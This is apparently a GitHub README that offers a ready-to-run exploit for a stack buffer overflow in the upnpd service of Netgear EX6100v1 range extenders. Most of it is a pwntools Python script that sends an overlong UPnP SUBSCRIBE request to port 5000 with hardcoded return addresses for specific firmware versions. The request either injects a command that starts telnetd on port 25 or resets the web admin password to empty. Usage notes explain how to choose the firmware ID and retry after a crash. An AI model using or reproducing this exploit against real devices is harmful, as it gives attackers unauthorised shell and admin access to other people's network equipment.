

# Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
示列


